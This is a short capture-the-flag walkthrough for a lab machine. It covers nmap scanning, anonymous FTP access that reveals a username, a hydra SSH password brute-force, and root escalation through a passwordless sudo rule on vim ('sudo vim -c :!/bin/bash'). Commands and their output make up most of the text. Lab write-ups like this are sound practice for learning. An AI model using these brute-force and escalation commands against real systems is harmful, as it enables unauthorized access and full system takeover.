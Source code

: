 1. Scan the network.

	$$ nmap -sV -Pn 10.10.238.31

	==> Starting Nmap 7.91 ( https://nmap.org ) 
		at 2022-02-06 08:46 UTC

		Nmap scan report for 10.10.238.31

		PORT     STATE SERVICE VERSION

		21/tcp   open  ftp     vsftpd 3.0.3
		80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
		2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


2. Access the FTP server.

	$$ ftp 10.10.238.31

	## login with name: anonymous.

	$$ ls
	
	$$ cd pub
	
	$$ ls
	
	$$ get ForMitch.txt

	## Now we know that the username is 'mitch'(ssh).


3. Bruit Forcing the ssh password.

	$$ hydra ssh://10.10.238.31:2222 -l mitch -P best110.txt -V -f

	==> [2222][ssh] host: 10.10.238.31   login: mitch   password: secret


4. Accessing the ssh server.

	$$ ssh mitch@10.10.238.31 -p 2222

	## Password: secret

	==> And we are now logedin.

	$$ ls
	
	$$ cat user.txt

	==> G00d j0b, keep up!


5. Find, What can you leverage to spawn a privileged shell.

	$$ sudo -l

	==> User mitch may run the following commands on Machine:
    	(root) NOPASSWD: /usr/bin/vim


6. Escalate your privilege using 'vim'.

	$$ sudo vim -c ':!/bin/bash'
	
	$$ id 

	==> uid=0(root) gid=0(root) groups=0(root)

	## And we are now root.

